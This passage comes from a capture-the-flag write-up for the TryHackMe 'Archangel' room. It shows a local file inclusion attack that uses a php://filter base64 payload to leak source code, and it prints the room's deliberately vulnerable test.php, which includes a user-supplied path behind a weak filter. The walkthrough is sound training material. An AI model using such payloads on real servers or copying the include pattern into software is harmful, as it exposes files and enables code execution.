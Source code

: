 After clicking the button, it takes us to **mrrobot.php** in the directory **/var/www/html/development_testing/** page.
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/mrrobot.png" | relative_url}})
{: refdef}

The URL points to the possibility of LFI. I tried to access files like **/etc/passwd**, **/etc/hosts**, **/var/log/apache2/access.log** directly by passing the value to the **view** parameter but no success. There is a filter which is restricting us from reading these files. We must find a way to read the code of **test.php**. After trying few techniques, I got the way to read the file.
With the technique below, we can retrieve the code of the file in base64 format and decode it back to read the original code.
```
php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```
I tried reading **mrrobot.php** file and it worked. Now let's see if we can read the test.php file from the same directory. 
{:refdef: style="text-align: center;"}
![Image]({{ "/assets/images/thm/archangel/testcode.png" | relative_url}})
{: refdef}

Yes, we get the base64 encoded long code. Copy the encoded string and decode it into the file test.php with following command.

```shell
echo "encode-string" | base64 -d > test.php
```

This is the code of **test.php**
```php
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>
 
    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{REDACTED}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>
```
<br>
In this code you will also get the second flag.